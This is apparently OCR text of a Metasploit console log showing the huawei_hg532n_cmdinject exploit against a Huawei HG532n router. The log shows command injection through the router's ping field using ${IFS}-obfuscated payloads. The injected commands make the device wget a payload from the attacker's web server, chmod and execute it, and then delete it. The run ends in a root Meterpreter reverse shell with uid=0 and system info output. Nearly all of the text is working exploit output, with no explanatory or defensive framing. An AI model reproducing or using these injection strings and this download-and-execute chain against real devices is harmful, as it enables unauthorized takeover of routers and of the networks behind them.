 ```
[*] Received new reply token = 'HG520b>'
[+] Prompt received. Telnet access fully granted!
[*] Starting web server; hostinig /MDGuEPiUDBRXD
[*] Using URL: http://0.0.0.0:8080/MDGuEPiUDBRXD
[*] Local IP: http://192.168.1.3:8080/MDGuEPiUDBRXD
[*] Runninig command on target: wget -g -v -l /tmp/zjtmztfz -r /MDGuEPiUDBRXD -P8080 41.34.32.121
[*] Received new reply token = 'p'
[*] Received new reply token = 'ing ?;wget${IFS}-g${IFS}-v${IFS}-l${IFS}/tmp/zjtmztfz${IFS}-r${IFS}/MDGuEPiUDBRXD${IFS}-P8080${IFS}41.34.32.121;true'
[*] Received new reply token = 'ping: bad address '?''
[+] HTTP server received request. Sending payload to victim
[*] Received new reply token = 'The IP is [41.34.32.121]'
[*] Received new reply token = 'Success
ping result:
HG520b>'
[+] Command executed successfully
[*] Runninig command on target: chmod 777 /tmp/zjtmztfz
[*] Received new reply token = 'p'
[*] Received new reply token = 'ing ?;chmod${IFS}777${IFS}/tmp/zjtmztfz;trueping: bad address '?'

Success
ping result:
HG520b>'
[+] Command executed successfully
[*] Runninig command on target: /tmp/zjtmztfz
[*] Received new reply token = 'p'
[*] Received new reply token = 'ing ?;/tmp/zjtmztfz&trueping: bad address '?'

Success
ping result:
HG520b>'
[+] Command executed successfully
[*] Runninig command on target: rm /tmp/zjtmztfz
[*] Received new reply token = 'p'
[*] Received new reply token = 'ing ?;rm${IFS}/tmp/zjtmztfz;trueping: bad address '?'

Success
ping result:
HG520b>'
[+] Command executed successfully
[*] Waiting for the payload to connect back ..
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 197.38.98.11:50097) at 2017-04-15 16:45:05 +0200
[+] Payload connected!
[*] Server stopped.

msf exploit(huawei_hg532n_cmdinject) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.1.1
OS           :  (Linux 2.6.21.5)
Architecture : mips
Meterpreter  : mipsbe/linux
meterpreter >
```

